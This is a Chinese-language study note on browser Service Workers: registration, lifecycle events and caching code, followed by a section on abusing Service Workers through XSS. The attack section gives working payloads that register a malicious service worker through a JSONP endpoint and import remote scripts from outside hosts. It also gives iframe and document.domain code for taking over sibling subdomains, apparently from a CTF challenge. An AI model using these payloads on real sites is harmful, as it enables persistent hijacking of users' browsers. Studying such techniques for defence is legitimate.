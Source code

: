 # Service Worker

## Service Worker 学习



### 配置检查

在已经支持 serivce workers 的浏览器的版本中，很多特性没有默认开启。如果你发现示例代码在当前版本的浏览器中怎么样都无法正常运行，你可能需要开启一下浏览器的相关配置：

- **Firefox Nightly**: 访问 `about:config` 并设置 `dom.serviceWorkers.enabled` 的值为 true; 重启浏览器；
- **Chrome Canary**: 访问 `chrome://flags` 并开启 `experimental-web-platform-features`; 重启浏览器 (注意：有些特性在Chrome中没有默认开放支持)；
- **Opera**: 访问 `opera://flags` 并开启` ServiceWorker 的支持`; 重启浏览器。 

另外，你需要通过 HTTPS 来访问你的页面 — 出于安全原因，**Service Workers 要求必须在 HTTPS 下才能运行。Github 是个用来测试的好地方，因为它就支持HTTPS。为了便于本地开发，`localhost` 也被浏览器认为是安全源。**

### 注意点

1. Service Workers 要求必须在 HTTPS 或者 localhost 下才能运行
2. Service Workers 要求尽可能的异步操作



### Service Workers 的注册及安装

通过`serviceWorkerContainer.register()`来注册一个Service Workers

eg.

```javascript
if ('serviceWorker' in navigator) {
  navigator.serviceWorker.register('/sw-test/sw.js', { scope: '/sw-test/' }).then(function(reg) {
    // registration worked
    console.log('Registration succeeded. Scope is ' + reg.scope);
  }).catch(function(error) {
    // registration failed
    console.log('Registration failed with ' + error);
  });
}
```

其中scope为Service Workers的作用域，默认是scriptURL(`/sw-test/sw.js`)所在的文件夹及其子文件夹，scope的选择范围只能是scriptURL所在的文件夹或者子文件夹，且不能影响其他网站，只能影响当前的域名。

scriptURL是相对于origin的URL而不是相对于引用他的那个JS文件，当然也有例外（ `Content-Type` 必须是 `text/javascript`）

> 如果你的 service worker 被激活在一个有 `Service-Worker-Allowed` header 的客户端，你可以为service worker 指定一个最大的 scope 的列表。

安装过程：

![img](https://mdn.mozillademos.org/files/12636/sw-lifecycle.png)





### 处理事件

Service Workers支持的事件如下



![install, activate, message, fetch, sync, push](https://mdn.mozillademos.org/files/12632/sw-events.png)

install:安装时会触发InstallEvent

activate:安装事件之后调用activate事件

fetch:Service Workers 中的所有请求都会触发fetch事件

sync:当发起一个同步请求是会触发sync事件







```javascript
this.addEventListener('install', function(event) {
  event.waitUntil(
    caches.open('v1').then(function(cache) {
      return cache.addAll([
        '/sw-test/',
        '/sw-test/index.html',
        '/sw-test/style.css',
        '/sw-test/app.js',
        '/sw-test/image-list.js',
        '/sw-test/star-wars-logo.jpg',
        '/sw-test/gallery/',
        '/sw-test/gallery/bountyHunters.jpg',
        '/sw-test/gallery/myLittleVader.jpg',
        '/sw-test/gallery/snowTroopers.jpg'
      ]);
    })
  );
});

self.addEventListener('activate', function(event) {
  var cacheWhitelist = ['v2'];

  event.waitUntil(
    caches.keys().then(function(keyList) {
      return Promise.all(keyList.map(function(key) {
        if (cacheWhitelist.indexOf(key) === -1) {
          return caches.delete(key);
        }
      }));
    })
  );
});

self.addEventListener('fetch', function(event) {
  event.respondWith(
    caches.match(event.request).then(function(resp) {
      return resp || fetch(event.request).then(function(response) {
        return caches.open('v1').then(function(cache) {
          cache.put(event.request, response.clone());
          return response;
        });  
      });
    })
  );
});
```





## Service Worker With XSS



### XSS简单示范



通过Service Worker 可以持久的控制受害者

利用条件如下：

1. 一个xss点
2. MIME TYPE 为 application/javascript的可控页面（通常是jsonp）



`index.php?xss=navigator.serviceWorker.register("/sw/jsonp.php?xss=importScripts(%27https://serviceworker.free.beeceptor.com/exp.js%27);");`



exp.js

```
self.addEventListener('fetch', function(event) {
  event.respondWith(new Response('<h1 style="color:red">HACKED</h1>',{headers: { 'Content-Type': 'text/html' }}));
});
```

### 利用Service Workers 控制主站及其子站点

假设在A.evil.com上存在XSS点，B.evil.com上存在可控jsonp，

那么我们可以通过设置`document.domain="evil.com"`，嵌入一个iframe（src=B.evil.com），然后执行恶意代码插入Service Workers

A站点执行(使用self.skipWaiting()使的Service Workes 控制当前界面)

```javascript
document.domain="evil.com";
a=document.createElement("iframe");
a.src="https://B.evil.com/";
document.body.append(a);
document.getElementsByTagName("iframe")[0].addEventListener("load",()=>{fuck()})
function fuck(){
    var code = `navigator.serviceWorker.register("/jsonp.php?callback=self.importScripts('//mysite.com/fuck.js')//")`;
    document.getElementsByTagName("iframe")[0].contentWindow.eval(code);
}

```

这样我们便控制住了B站点



fuck.js

```javascript
document.domain="hardxss.xhlj.wetolink.com";
a=document.createElement("iframe");
a.src="https://auth.hardxss.xhlj.wetolink.com";
document.body.append(a);
document.getElementsByTagName("iframe")[0].addEventListener("load",()=>{fuck()})
function fuck(){
    var code = `navigator.serviceWorker.register("/api/loginStatus?callback=self.importScripts('//serviceworker.free.beeceptor.com/exp.js');//")`;
    document.getElementsByTagName("iframe")[0].contentWindow.eval(code);
}

```



exp.js

```
self.addEventListener('fetch', function(event) {
  event.respondWith(new Response('<h1 style="color:red">HACKED</h1>',{headers: { 'Content-Type': 'text/html' }}));
});


```









## 参考

教程：https://developer.mozilla.org/zh-CN/docs/Web/API/Service_Worker_API/Using_Service_Workers

API：https://developer.mozilla.org/zh-CN/docs/Web/API/Service_Worker_API

https://lightless.me/archives/XSS-With-Service-Worker.html